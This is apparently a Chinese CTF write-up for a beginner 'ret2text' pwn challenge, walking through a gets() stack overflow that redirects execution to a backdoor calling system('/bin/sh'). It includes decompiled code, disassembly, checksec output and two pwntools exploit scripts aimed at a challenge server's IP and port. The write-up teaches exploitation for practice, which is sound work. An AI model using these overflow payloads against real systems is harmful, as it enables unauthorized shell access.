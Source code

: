 # 【中等】N 个人各自有着自己的秘密

> hint：什么你不知道什么是 Pwn？由于其发音与 “砰” 类似，而其又指代成功攻入受害者电脑，因此被广泛流传了下来。本题是 pwn 最最最简单的基础入门系列 **ret2text** ，我相信大家都知道吧？但是有一个栈平衡的坑，或许你可以在[这里](https://blog.csdn.net/Myon5/article/details/131594204)找到灵感。最后：**求求你了写写 pwn 吧，只要是我能做的，我什么都愿意做！**

很简单的 ret2text ，没有人多少人写出来是我没有想到的。实际上，参考一下 hint 的链接就可以出来了。

# 题目分析
先用 IDA 反编译一下，可以看到程序的源代码：

``` c++

int backdoor()
{
  puts("Backdoor triggered! Welcome to the secret area! miao~");
  return system("/bin/sh");
}

int secret_board()
{
  char v1[64]; // [rsp+0h] [rbp-40h] BYREF

  puts("Hello, please enter your secret message:");
  gets(v1);
  return puts("Thanks for sharing your secret! (^_^)");
}

int __fastcall main(int argc, const char **argv, const char **envp)
{
  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  secret_board();
  return 0;
}

```

很明显，我们看到了有一段代码，可以调用 secret_board 函数，但是 secret_board 函数中调用了 gets 函数，而gets 函数可以触发栈溢出，漏洞就在这里了。

我们可以将原函数的返回用栈溢出修改为 backdoor ，即可获得shell（注意栈溢出）。

在 IDA 我们可以看到：
``` c
.text:0000000000401156 ; int backdoor()
.text:0000000000401156                 public backdoor
.text:0000000000401156 backdoor        proc near
.text:0000000000401156 ; __unwind {
.text:0000000000401156                 push    rbp
.text:0000000000401157                 mov     rbp, rsp
.text:000000000040115A                 lea     rax, s          ; "Backdoor triggered! Welcome to the secr"...
.text:0000000000401161                 mov     rdi, rax        ; s
.text:0000000000401164                 call    _puts
.text:0000000000401169                 lea     rax, command    ; "/bin/sh"
.text:0000000000401170                 mov     rdi, rax        ; command
.text:0000000000401173                 call    _system
.text:0000000000401178                 nop
.text:0000000000401179                 pop     rbp
.text:000000000040117A                 retn
.text:000000000040117A ; } // starts at 401156
.text:000000000040117A backdoor        endp
```

再看看保护：
``` Bash
┌──(kali㉿LAPTOP-9O25NAN3)-[~/Desktop/nex_practice]
└─$ checksec ./secret_board
[*] '/home/kali/Desktop/nex_practice/secret_board'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

# exp

在提示中说了注意栈溢出，这里给出两种解决方法（记得修改端口）：
1. 跳过 `push rbp; mov rbp, rsp;` 保证堆栈平衡
``` python
from pwn import *
p = remote('202.199.6.66', 36479)
# p = process('./secret_board')
payload = b'a' * (64+8) + p64(0x40115A)
p.sendline(payload)
p.interactive()
``` 
2. 利用 retn 保持堆栈平衡
``` python
from pwn import *
p = remote('202.199.6.66', 36479)
# p = process('./secret_board')
payload = b'a' * (64+8) + p64(0x40117A) + p64(0x401156)
p.sendline(payload)
p.interactive()
```

怎么样，代码很简单吧。<(￣︶￣)>

我看有的人 get shell ，但是没有获得 flag ，有点可惜，在题目中说明了，flag 在环境变量中，get shell 后，输入 `env` 可以看到。